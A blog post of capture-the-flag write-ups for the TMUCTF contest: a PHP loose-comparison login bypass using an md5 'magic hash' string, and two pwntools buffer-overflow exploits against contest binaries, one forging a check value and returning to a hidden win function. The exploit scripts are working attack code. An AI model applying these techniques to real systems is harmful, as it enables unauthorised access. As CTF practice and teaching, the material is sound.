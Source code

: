 ```yaml
---
title: "TCMU CTF: Writeups"
categories: ["Hacking", "CTF", "Binary Exploitation", "Web Hacking"]
tags: ["hacking", "CTF", "Binary Exploitation", "Web Hacking", "Steganography"]
date: "2021-09-11"
type: "post"
weight: 400
keywords: "hacking pentesting c source code auditing static analysis"
toc: "true"
---
```


This was a well rounded CTF in my opinion with good challenges for beginners (like me) that were not too trivial. Instead of the standard `robots.txt` or source code inspection they had challenges where one could easily find clues to get started researching the challenges. That is even if the solution wasn't immediately clear you had at least some direction for a google search and a shot at solving the challenge during the CTF runtime.

I didn't get a chance to spend too long playing the CTF and had a few near misses but here are a few challenge writeups.

## Web

### Login

Straight away we hit up `/robots.txt` as is my approach for every ctf web challenge. This yields some PHP sauce:


```php
if (isset($_GET["password"])) {
    if (hash("md5", $_GET["password"]) == $_GET["password"]) {
        echo "<h1>Here is the flag:</h1>" . $flag;
    } else {
        echo "Try harder!";
    }
}
```

Which I look at and have two guesses:

+ md5 collisions
+ type juggling

Now its important to note that 'type juggling' is a term I have *heard* of in relation to PHP vulnerabilities. But which I knew nothing about really. 

Now we focus on the only important line here:

`if (hash("md5", $_GET["password"]) == $_GET["password"])` 


The first guess is based on the idea that `md5` is a known vulnerable hashing algorithm which fails on several properties of a cryptographic hash:

+ Collision resistance
   + It should be hard to choose any two messages that result in the same hash
+ Preimage resistance
   + Given the hash, it should be hard to find the original message
+ Second Preimage Resistance 
   + Given the hash and the original message, it should be hard to come up with a second message that has the same hash


None of these quite fit the scenario we have here but remembering I don't know anything about type juggling I decide to investigate my first guess further (md5 could be that bad right?). After googling around for awhile I found a combination of "it might be possible" and a question [here](https://crypto.stackexchange.com/questions/19493/is-there-a-string-thats-hash-is-equal-to-itself) on the exact question at hand:

> Is it possible to have an md5 hash equal its input?

But since the answer was inconclusive and no example of such a string was provided I decided to learn about type juggeling.

First port of call is of course the amazing repo [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings). Which provided the perfect overview of PHP type juggling in the presence of the lose comparison `==` operator. I then setup a PHP repel with the function using [writephponline](https://www.writephponline.com/).

![](https://i.imgur.com/z5zTCOU.png)

We can then start testing out how PHP handles certain inputs. At first I tried some simple things like int `0` (`$password = 0`) which obviously worked but would not work against the remote host since upon a quick confirmation search the `$_GET["password"]` in the original source will return a string. 

Hence we look for a string comparison that evaluates to `0`. After a few tries and searching around I came up with [this](https://stackoverflow.com/questions/62293578/ctf-type-juggling-with-ripemd160-hash#62300133) stack post which explains and also drops a working string `0e215962017` which PHP will treat as a float leading to a zero eval.

![](https://i.imgur.com/6vZWSDr.png)

This works against the server implementation too and we collect the flag.

> TMUCTF{D0_y0u_kn0w_7h3_d1ff3r3nc3_b37w33n_L0053_c0mp4r150n_4nd_57r1c7_c0mp4r150n_1n_PHP!?}

## pwn

### Warmup 

This one was quite a straightforward BOF challenge if you know about even basic overflow challenges you would likely have just tried a long string against the input to test for offsets and fingerprint the binary. In this case a long enough input such as:

`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`

Will overwrite a value on the stack which is compared to `0` in a if condition somewhere causing the check to pass and the flag to be printed.

It's easiest just to do this overflow with netcat but here's a script anyway.

```python
from pwn import *

HOST = '194.5.207.56'
PORT = '7000'
proc = remote(HOST, PORT)
proc.sendlineafter('Let us know your name: \n', b'A' * 242)
log.success(proc.recvall())
```

> TMUCTF{n0w_y0u_4r3_w4rm3d_up}

### Baby Pwn

We start out by checking the memory protections and gather other info about the binary which may indicate how it is exploitable. I like to run a simple script I made called [binaliser](https://github.com/Angus-C-git/binaliser) which makes guesses based on memory protections enabled and other metrics about the strategy for the binary. 

![](https://i.imgur.com/emmZ0NX.png)

In this case we have the following memory protections:


```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

with the **NX** bit set and no win function detected, this indicates either a ROP challenge or a win function with a name not detected by the script. We can get more of an idea about the potential for rop by checking what gadgets are present in the binary.

After running the binary and ropper I note that the gadgets are pretty sparse with only `124` detected and not many of those useful.

Thus its time for the next trick in the book, static analysis. My disassembler of choice is [binary ninja](https://binary.ninja/) since I could pick it up for 'cheap' as a student. Looking at the disassembled binary gives us this main function:


{{< image ref="images/blog/ctfs/mainBabyPwn.png" >}}


But also a strange function named **wow**, which has the following disassembly:


{{< image ref="images/blog/ctfs/wowBabyPwn.png" >}}

This is our **win** function since it opens the flag file to read and prints it to stdout. So now we have a plan of attack:

1. Control the return pointer 
2. Return to the 'wow' function

Now when we run the binary we get the following output:

{{< image ref="images/blog/ctfs/outBabyPwn.png" >}}

If we attempt a trivial overflow we will fail the compare in the main function disassembly:

```nasm
cmp     dword [rbp-0x4], 0xcafe
```

and fail to reach the vulnerable code in `helloUser` that will let us control the return pointer. We beat this custom canary by calculating the offset to it and then inserting the expected value as follows:

```python
log.info(f"offset to cmp @: {cyclic_find('iaa') - 4}")
# pass inital cmp
canary = flat({
    32 - 4: p64(0xcafe)
})
```

This takes us to the vulnerable function and the next stage of our exploit: controlling the return pointer and returning to **wow**, our win function. This is just a simple overflow which we can simplify with pwntools `flat` and `symbols` functions once again to complete the exploit chain.

**Exploit**

```python 
log.info(f"offset to cmp @: {cyclic_find('iaa') - 4}")
# pass inital cmp
canary = flat({
    32 - 4: p64(0xcafe)
})
proc.sendlineafter('enter your name:', canary)

## win @wow    
payload = flat({
    136: elf.symbols['wow']
})

proc.sendlineafter('yourself ;;)\n', payload)

# shellit
proc.interactive()
```

> TMUCTF{w0w!_y0u_c0uld_f1nd_7h3_w0w!}
